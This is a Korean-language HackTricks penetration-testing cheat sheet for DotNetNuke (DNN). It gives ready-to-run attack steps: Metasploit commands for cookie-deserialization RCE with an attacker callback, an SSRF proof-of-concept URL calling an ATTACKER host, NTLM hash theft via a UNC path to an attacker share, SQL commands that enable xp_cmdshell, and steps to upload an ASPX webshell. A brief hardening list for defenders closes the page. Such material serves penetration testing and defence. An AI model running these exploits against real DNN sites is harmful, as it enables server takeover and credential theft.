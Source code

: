 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

DNN에 **관리자**로 로그인하면 **RCE**를 얻는 것이 쉽지만, 최근 몇 년 동안 여러 *인증되지 않은* 및 *인증 후* 기술이 발표되었습니다. 다음 치트 시트는 공격 및 방어 작업 모두에 유용한 기본 요소를 수집합니다.

---
## 버전 및 환경 열거

* *X-DNN* HTTP 응답 헤더를 확인하세요 – 일반적으로 정확한 플랫폼 버전을 공개합니다.
* 설치 마법사는 `/Install/Install.aspx?mode=install`에서 버전을 유출합니다 (매우 오래된 설치에서 접근 가능).
* `/API/PersonaBar/GetStatus` (9.x)는 낮은 권한 사용자를 위해 `"dnnVersion"`을 포함하는 JSON 블롭을 반환합니다.
* 라이브 인스턴스에서 볼 수 있는 일반적인 쿠키:
* `.DOTNETNUKE` – ASP.NET 폼 인증 티켓.
* `DNNPersonalization` – XML/직렬화된 사용자 프로필 데이터가 포함되어 있습니다 (구버전 – 아래 RCE 참조).

---
## 인증되지 않은 악용

### 1. 쿠키 역직렬화 RCE  (CVE-2017-9822 및 후속)
*영향을 받는 버전 ≤ 9.3.0-RC*

`DNNPersonalization`은 내장된 404 핸들러가 활성화될 때마다 모든 요청에서 역직렬화됩니다. 따라서 조작된 XML은 임의의 가젯 체인 및 코드 실행으로 이어질 수 있습니다.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
모듈은 패치되었지만 여전히 취약한 버전(CVE-2018-15811/15812/18325/18326)에 대해 올바른 경로를 자동으로 선택합니다. 7.x–9.1.x에서는 **인증 없이** 공격이 가능하며, 9.2.x+에서는 *검증된* 저권한 계정으로 가능합니다.

### 2. 서버 측 요청 위조 (CVE-2025-32372)
*영향을 받는 버전 < 9.13.8  –  패치가 2025년 4월에 출시됨*

구버전 `DnnImageHandler` 수정의 우회를 통해 공격자가 서버에 **임의의 GET 요청**(반-블라인드 SSRF)을 하도록 강제할 수 있습니다. 실제 영향:

* 클라우드 배포에서 내부 포트 스캔 / 메타데이터 서비스 검색.
* 인터넷에서 방화벽으로 차단된 호스트에 접근.

개념 증명(대체 `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
요청은 백그라운드에서 트리거됩니다; 콜백을 위해 리스너를 모니터링하세요.

### 3. NTLM 해시 노출 via UNC 리디렉션 (CVE-2025-52488)
*영향을 받는 버전 6.0.0 – 9.x (< 10.0.1)*

특별히 조작된 콘텐츠는 DNN이 `\\attacker\share\img.png`와 같은 **UNC 경로**를 사용하여 리소스를 가져오도록 시도하게 만들 수 있습니다. Windows는 NTLM 협상을 기꺼이 수행하며, 서버 계정 해시를 공격자에게 유출합니다. **10.0.1**로 업그레이드하거나 방화벽에서 아웃바운드 SMB를 비활성화하세요.

### 4. IP 필터 우회 (CVE-2025-52487)
관리자가 *Host/IP 필터*에 의존하여 관리 포털을 보호하는 경우, **10.0.1** 이전 버전은 리버스 프록시 시나리오에서 `X-Forwarded-For`를 조작하여 우회될 수 있음을 유의하세요.

---
## 인증 후 RCE

### SQL 콘솔을 통한
**`Settings → SQL`** 아래에 내장된 쿼리 창이 사이트 데이터베이스에 대한 실행을 허용합니다. Microsoft SQL Server에서 **`xp_cmdshell`**을 활성화하고 명령을 생성할 수 있습니다:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### ASPX 웹쉘 업로드 방법
1. **`Settings → Security → More → More Security Settings`**로 이동합니다.
2. **Allowable File Extensions**에 `aspx` (또는 `asp`)를 추가하고 **저장**합니다.
3. **`/admin/file-management`**로 이동하여 `shell.aspx`를 업로드합니다.
4. **`/Portals/0/shell.aspx`**에서 이를 트리거합니다.

---
## Windows에서의 권한 상승
**IIS AppPool\<Site>**로 코드 실행이 이루어지면, 일반적인 Windows 권한 상승 기법이 적용됩니다. 만약 시스템이 취약하다면 다음을 활용할 수 있습니다:

* **PrintSpoofer** / **SpoolFool**를 사용하여 *SeImpersonatePrivilege*를 악용합니다.
* **Juicy/Sharp Potatoes**를 사용하여 *Service Accounts*에서 탈출합니다.

---
## 강화 권장 사항 (블루 팀)

* **9.13.9** 이상으로 **업그레이드**합니다 (SSRF 우회 수정) 또는 바람직하게는 **10.0.1** (IP 필터 및 NTLM 문제).
* 설치 후 잔여 **`InstallWizard.aspx*`** 파일을 제거합니다.
* 아웃바운드 SMB (포트 445/139) 이그레스를 비활성화합니다.
* DNN 내에서가 아니라 엣지 프록시에서 강력한 *Host Filters*를 적용합니다.
* 사용하지 않는 경우 `/API/RemoteContentProxy`에 대한 접근을 차단합니다.

## 참조

* Metasploit `dnn_cookie_deserialization_rce` 모듈 문서 – 실용적인 인증되지 않은 RCE 세부정보 (GitHub).
* GitHub 보안 자문 GHSA-3f7v-qx94-666m – 2025 SSRF 우회 및 패치 정보.
{{#include ../../banners/hacktricks-training.md}}
